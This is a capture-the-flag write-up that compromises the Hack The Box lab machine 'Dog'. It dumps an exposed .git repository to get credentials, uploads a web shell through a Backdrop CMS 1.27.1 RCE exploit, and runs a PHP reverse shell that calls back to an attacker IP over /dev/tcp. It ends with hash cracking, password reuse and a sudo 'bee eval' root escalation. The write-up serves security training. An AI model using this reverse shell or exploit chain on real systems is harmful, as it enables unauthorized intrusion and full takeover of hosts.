

# Dog

## Introduction

We will find a website using BackDrop CMS version `1.27.1`, which is vulnerable to Remote Code Execution and user credentials from an exposed Git directory, which we will use to log into the admin panel. From there, we'll be able to upload our reverse shell and retrieve the right user to SSH and set a foothold on the machine. Finally, a command utility that interacts with Backdrop sites will be exploited to escalate our privileges and gain root access.

## Machine infos

| Name                                           | Release Date | Retire Date | OS    | Level |
| ---------------------------------------------- | ------------ | ----------- | ----- | ----- |
| [Dog](https://app.hackthebox.com/machines/Dog) | 2025-03-08   | 2025-07-12  | Linux | Easy  |

## Enumeration

`nmap` finds two open TCP ports, SSH (22) and HTTP (80) :

```bash
 nmap -sC -sV -oA nmap 10.10.11.58
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-11 17:49 CEST
Nmap scan report for 10.10.11.58
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.09 seconds

```

The website is a blog that seems to be talking about Dogs : 

 

The login page confirms that it uses Backdrop CMS (also suggested by our earlier scan results) :

 

`nmap` also pointed out that a `.git` repository is present : 

  

To further inspect that repository, we can use [git-dumper](https://github.com/arthaud/git-dumper)  to download its content. After a few searches we quickly get some *mysql* database credentials inside `settings.php` : 

 

The about page gives us a hint on how user's email are formatted on the domain : 

 

Searching through the git repository for any user email that contains `dog.htb`, we find the user `tiffany` : 

 

## Foothold

Testing both user name and database root password gives us access to the admin panel : 

 

Drifting through the menus,  `Reports > Status report` displays the Backdrop CMS version : 

 

After a quick search, we find out that BackDrop CMS version `1.27.1` is vulnerable to [authenticated RCE](https://www.exploit-db.com/exploits/52021). The suggested exploit works by creating a ZIP file that could be used to create a web shell and be uploaded as a module under `admin/modules/install`: 

```bash
python3 exploit.py http://10.10.11.58
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

A warning message informs us that `Zip PHP extension` is not loaded on the server : 

  

If we try to install our module manually, by selecting the `Manual Installation` link, we get notified that only `tar, tgz, gz or bz2` extensions are allowed : 

 

Getting back to our exploit, we simply create a `tar` archive from the `shell` folder : 

```bash
tar -cfz shell.tar.gz shell/*
```

This time, uploading the archive is successful : 

 

We can then access our web shell module from  `/modules/shell/shell.php` : 

 

If we change the `shell.php` code with some php reverse shell code : 

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.175/4444 0>&1'");
```

and run a local server using NetCat : 

```bash
nc -lnvp 4444
```

We get a reverse shell on the machine : 

  

`johncusack` and `jobert` are system users : 

 

But we don't have enough permissions to get the `user.txt` : 

 

## Lateral Movement

We decide to connect to mysql and seek through usernames and passwords : 


Then we try to crack `john` hash : 

```bash
hashid -j -m '$S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji.'
Analyzing '$S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji.'
[+] Drupal > v7.x [Hashcat Mode: 7900][JtR Format: drupal7]
```

```bash
hashcat -m 7900 hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
```

Unfortunetly, after many failed attempts, the hash won't simply crack. Trying to SSH using the same password we did for `Tiffany` with `johncusack` simply works!

 

## Privilege escalation

Checking for sudo rights, we see that `johncusack` can run `usr/local/bin/bee` as sudo user : 

 

[Bee](https://backdropcms.org/project/bee) is a command line utility for Backdrop CMS that includes commands that allow developers to interact with their sites by performing actions. 

If we take a look at the documentation, `Bee` provides many commands and options : 

```bash
johncusack@dog:~$ bee

🐝 Bee
Usage: bee [global-options] <command> [options] [arguments]

Global Options:
 --root
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.

 --site
 Specify the directory name or URL of the Backdrop site to use (as defined in 'sites.php'). If not set, will try to find the Backdrop site automatically based on the current directory.

 --base-url
 Specify the base URL of the Backdrop site, such as https://example.com. May be useful with commands that output URLs to pages on the site.

<SNIP>
...

ADVANCED
  db-query
   dbq
   Execute a query using db_query().

  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.

  php-script
   scr
   Execute an arbitrary PHP file after bootstrapping Backdrop.

  sql
   sqlc, sql-cli, db-cli
   Open an SQL command-line interface using Backdrop's database credentials.
```

If the `--root` flag path is set correctly, we can execute arbitrary `php` code directly. And based on  [GTFO Bins](https://gtfobins.github.io/gtfobins/php/) : 

> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Which means, if we set `--root` to the directory where the Backdrop installation reside, we should be able to execute a system command such as `/bin/bash` and escalate our privileges as root : 

```bash
sudo bee --root="/var/www/html" eval "system('/bin/bash')"
```

 

